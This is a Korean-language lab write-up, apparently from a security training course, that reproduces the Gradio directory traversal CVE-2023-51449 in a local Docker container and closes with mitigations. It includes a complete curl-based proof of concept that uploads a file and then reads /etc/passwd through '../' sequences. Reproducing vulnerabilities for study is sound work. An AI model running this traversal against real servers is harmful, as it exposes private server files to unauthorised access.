






# [WHS4] 가상화 (컨테이너 보안 실무)
## Gradio `/file` Interface Directory Traversal 취약점 재현 (CVE-2023-51449)

---

### 0. 실행 및 재현 방법

아래 명령어는 Docker 환경 실행부터 PoC 재현까지 한 번에 수행하는 전체 명령어이다.  
Gradio 서버에 접속하자마자 /upload를 하게 되면 비정상적인 결과를 초래할 수 있어, `until...do...sleep 1`을 통해 `localhost:7860`이 응답할 때까지 기다린다.

아래의 명령어는 `Gradio/CVE-2023-51449` 디렉토리에서 실행된다.

```bash
docker compose up -d

echo "[*] Waiting for Gradio server..."
until curl -s http://localhost:7860/ > /dev/null; do
  sleep 1
done

echo "[*] Gradio server is ready."

docker ps

echo "hello gradio" > test.txt

UPLOAD_PATH=$(curl -s -X POST -F "files=@test.txt" http://localhost:7860/upload | sed 's/[][]//g' | tr -d '"')
DIR_PATH=$(dirname "$UPLOAD_PATH")

echo "UPLOAD_PATH=$UPLOAD_PATH"
echo "DIR_PATH=$DIR_PATH"

curl --path-as-is -i "http://localhost:7860/file=${DIR_PATH}/../../../../../../../../../../etc/passwd"
```

정상적으로 취약점이 재현되면 응답 본문에서 `/etc/passwd` 파일 내용이 출력된다.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

---

### 1. 취약점 요약

- **CVE ID**: CVE-2023-51449
- **취약 제품**: Gradio
- **취약 버전**: Gradio 4.11.0 미만
- **실습 버전**: Gradio 4.10.0
- **취약점 유형**: Directory Traversal / Path Traversal
- **영향**: 서버 내부 파일 노출
- **실습 환경**: Docker Compose 기반 취약 환경

CVE-2023-51449는 Gradio의 `/file` 라우트에서 발생하는 Directory Traversal 취약점이다. 취약한 버전의 Gradio에서는 `/file` 엔드포인트가 사용자로부터 전달받은 파일 경로를 충분히 검증하지 못한다.

공격자는 `/file` 요청 경로에 `../` 시퀀스를 포함시켜 허용된 디렉터리 밖의 파일에도 접근할 수 있다. 본 실습에서는 Docker Compose를 이용해 취약한 Gradio 4.10.0 환경을 구성하고, `/etc/passwd` 파일이 외부 요청으로 노출되는지 확인하였다.

---

### 2. 취약점 원리

Gradio는 사용자가 업로드한 파일이나 생성된 임시 파일을 제공하기 위해 `/file` 엔드포인트를 사용한다. 정상적인 경우 사용자는 Gradio가 허용한 임시 디렉터리 내부의 파일에만 접근할 수 있어야 한다.

예를 들어 파일 업로드 후 서버 내부에는 다음과 같은 경로가 생성될 수 있다.

```text
/tmp/gradio/<hash>/test.txt
```

그러나 취약한 버전에서는 `/file` 엔드포인트에 다음과 같이 상위 디렉터리 이동 문자열인 `../`를 포함한 경로를 전달할 수 있다.

```text
/tmp/gradio/<hash>/../../../../../../../../../../etc/passwd
```

`../`는 상위 디렉터리로 이동한다는 의미이므로, 서버가 이를 제대로 차단하지 못하면 `/tmp/gradio/<hash>/` 경로를 벗어나 시스템 파일인 `/etc/passwd`에 접근할 수 있다.

즉, 이 취약점은 사용자가 접근 가능한 파일 경로의 범위를 서버가 제대로 제한하지 못해서 발생한다.

---

### 3. 환경 구성

본 실습은 제공된 Docker Compose 환경을 이용하여 진행하였다.

#### 파일 구조

```text
CVE-2023-51449/
├── README.md
├── README.zh-cn.md
├── docker-compose.yml
├── 1_docker_ps.png
├── 2_docker_desktop.png
├── 3_gradio_web.png
├── 4_upload_result.png
└── 5_poc_success.png
```

#### 실습 환경

- **OS**: macOS
- **Docker Desktop**: 사용
- **Docker Compose**: 사용
- **Target Image**: `vulhub/gradio:4.10.0`
- **Service Port**: `7860`

---

### 4. 취약 조건

본 취약점은 다음 조건에서 재현된다.

- Gradio 4.11.0 미만 버전 사용
- `/file` 엔드포인트 접근 가능
- 사용자가 `/upload` API를 통해 파일을 업로드할 수 있음
- `/file` 엔드포인트가 경로 내 `../` 시퀀스를 적절히 검증하지 못함
- 외부에서 Gradio 웹 서비스에 접근 가능

---

### 5. 단계별 재현 설명
아래 단계별 설명은 위 원클릭 명령어가 내부적으로 수행하는 과정을 나누어 설명한 것이다. 스크린샷은 각 단계가 실제 환경에서 정상적으로 수행되었음을 보여준다.

#### 5.1 Docker 환경 실행

다음 명령어로 취약한 Gradio 환경을 실행한다.

```bash
docker compose up -d
```

컨테이너가 정상적으로 실행 중인지 확인한다.

```bash
docker ps
```

실행 결과 `vulhub/gradio:4.10.0` 이미지 기반 컨테이너가 실행 중이며, 호스트의 `7860` 포트가 컨테이너의 `7860` 포트로 매핑된 것을 확인할 수 있다.

```text
0.0.0.0:7860->7860/tcp
```



Docker Desktop에서도 `cve-2023-51449` 프로젝트와 `web` 컨테이너가 실행 중임을 확인할 수 있다.



---

#### 5.2 웹 애플리케이션 접속 확인

브라우저에서 다음 주소로 접속한다.

```text
http://localhost:7860
```

Gradio 웹 애플리케이션이 정상적으로 실행 중임을 확인하였다.



---

#### 5.3 파일 업로드 및 서버 내부 경로 확인

먼저 업로드에 사용할 테스트 파일을 생성한다.

```bash
echo "hello gradio" > test.txt
```

다음 명령어를 사용해 Gradio 서버의 `/upload` API로 파일을 업로드한다.

```bash
curl -i -X POST -F "files=@test.txt" http://localhost:7860/upload
```

실행 결과, 서버 내부에 저장된 파일 경로가 응답으로 반환된다.

예시 응답은 다음과 같다.

```text
/tmp/gradio/7a6782fede57853190e6678be64bbab12504b5b9/test.txt
```

이는 업로드한 `test.txt` 파일이 컨테이너 내부의 `/tmp/gradio/<hash>/test.txt` 경로에 저장되었음을 의미한다.



---

#### 5.4 Directory Traversal PoC 실행

업로드 응답에서 확인한 `/tmp/gradio/<hash>/` 경로를 기준으로 `../` 시퀀스를 포함한 `/file` 요청을 전송한다.

수동으로 실행하는 경우, `<hash>` 값을 실제 응답에서 확인한 값으로 바꾸어 실행한다.

```bash
curl --path-as-is -i "http://localhost:7860/file=/tmp/gradio/<hash>/../../../../../../../../../../etc/passwd"
```

본 실습에서 확인한 경로를 기준으로 실행한 PoC 명령어는 다음과 같다.

```bash
curl --path-as-is -i "http://localhost:7860/file=/tmp/gradio/7a6782fede57853190e6678be64bbab12504b5b9/../../../../../../../../../../etc/passwd"
```

여기서 `--path-as-is` 옵션은 `curl`이 `../` 경로를 정규화하지 않고 서버에 그대로 전송하도록 하기 위해 사용하였다. 이 옵션이 없으면 `curl`이 요청 경로를 정리하면서 Directory Traversal payload가 서버에 의도한 형태로 전달되지 않을 수 있다.

---

### 6. 실행 결과

PoC 실행 결과, 응답 본문에서 다음과 같은 `/etc/passwd` 파일 내용이 출력되었다.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

이는 외부 HTTP 요청을 통해 컨테이너 내부의 `/etc/passwd` 파일을 읽을 수 있음을 의미한다.

따라서 Gradio 4.10.0 환경에서 CVE-2023-51449 Directory Traversal 취약점이 재현됨을 확인하였다.



---

### 7. 대응 방안

#### 7.1 Gradio 버전 업데이트

가장 직접적인 대응 방안은 Gradio를 취약하지 않은 버전으로 업데이트하는 것이다.

```bash
pip install --upgrade gradio
```

또는 Docker 환경에서는 안전한 버전의 이미지를 사용해야 한다.

```dockerfile
FROM python:3.11-slim
RUN pip install "gradio>=4.11.0"
```

---

#### 7.2 `/file` 경로 검증 강화

서버는 사용자가 전달한 파일 경로를 그대로 신뢰하면 안 된다.

다음과 같은 검증이 필요하다.

- 입력 경로 정규화
- `../` 시퀀스 차단
- 허용된 디렉터리 내부 파일만 접근 허용
- 심볼릭 링크 우회 방지
- 절대경로 접근 차단

---

#### 7.3 외부 접근 제한

Gradio 서비스를 외부에 직접 노출하지 않도록 제한한다.

- 인증 활성화
- 방화벽 적용
- 내부 네트워크에서만 접근 허용
- Reverse Proxy에서 접근 제어 적용

---

#### 7.4 Docker 보안 강화

컨테이너 환경에서는 최소 권한 원칙을 적용해야 한다.

- 컨테이너를 non-root 사용자로 실행
- 최소 이미지 사용
- Docker 이미지 태그 고정
- 이미지 취약점 스캔 수행
- 불필요한 capability 제거
- `privileged: true` 사용 금지
- `/var/run/docker.sock` 마운트 금지
- 비밀값은 이미지에 하드코딩하지 않고 secret 또는 volume으로 관리
- 가능하면 read-only root filesystem 사용

---

### 8. 정리

본 실습에서는 Docker Compose를 이용해 Gradio 4.10.0 기반 취약 환경을 실행하였다.

이후 `/upload` API를 통해 테스트 파일을 업로드하고, 서버 내부의 `/tmp/gradio/<hash>/test.txt` 경로를 확인하였다. 확인한 경로를 기준으로 `/file` 엔드포인트에 `../` 시퀀스를 포함한 요청을 전송하였고, 그 결과 컨테이너 내부의 `/etc/passwd` 파일 내용이 응답으로 출력되는 것을 확인하였다.

이를 통해 CVE-2023-51449 Directory Traversal 취약점이 Docker 환경에서 재현됨을 확인하였다.

---

### 9. 실습 종료

실습이 끝난 후 다음 명령어로 컨테이너를 종료한다.

```bash
docker compose down
```

---